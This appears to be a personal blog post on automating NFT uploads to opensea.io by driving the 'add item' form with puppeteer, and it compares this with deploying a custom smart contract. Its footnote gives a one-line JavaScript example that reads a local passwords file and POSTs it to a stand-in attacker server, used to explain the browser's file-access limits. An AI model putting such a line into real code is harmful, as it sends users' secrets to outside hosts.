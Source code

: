 ```yaml
---
title: Automating NFT uploads to opensea.io
date: 09-10-2021
katex: false
tags: nft, crypto
---
```


# Automating NFT uploads to opensea.io

## The problem

[opensea](https://opensea.io) allows you to create collections of NFTs, but you
can only add one item to the collection at a time via their 'add item' form /
web UI. This is fine if you are only creating a few NFTs, but quickly becomes
laborious if you want to create a large collection.

This seems to be a common issue, [see here](https://reddit.com/m6v5vr) for
example.

## Solution 1

One approach is to avoid the 'add item' UI completely by making your own smart
contract, and then integrating that contract with opensea ([details
here](https://docs.opensea.io/docs/opensea-integration)). The downside with
this approach is that you have to pay gas fees to create the contract.

## Solution 2

It would be nicer (compared with [Solution 1](solution-1)) to automate the 'add
item' UI, because this is a free operation (as in beer). The flow is basically:

a) upload artwork / digital asset
b) fill in metadata
c) submit.

It is theoretically possible to perform this flow by just sending http(s)
requests (e.g. in a python script), but in practice it would be difficult
because it is first necessary to authenticate with opensea, and the also to
connect to your wallet. This sort of auth flow is more easily done in a browser,
_but_ by doing the automation in the browser, uploading the artwork becomes
harder. Without a user prompt or action, it is not possible to read local files
with JS in a browser environment[^1], so we cannot simply hack up a JS script to
run in the browser console. You can however get around this by automating user
actions (e.g. using puppeteer).

See [this script](./upload.js.txt) which I used to add several items to the [64
angel mice collection](https://opensea.io/collection/64-angel-mice) (run it with
`node upload.js`, having modified the relevant constants). The script
gives you a chance to authenticate + connect to your wallet, and then for each
item you wish to upload, it'll open a new tab, and submit an associated form. In
practice, I found that the form submissions to opensea failed occasionally, and
this required manual intervention. If you wanted to add thousands of items,
you'd probably want to improve the script to retry any failed form submissions.

[^1]: If it were possible, then I suspect something like this would be a
remarkably successful attack: `const secret = await fetch("file:///home/ben/passwords"); await fetch("https://nefarious-server.com", {method:"POST", body:secret})`.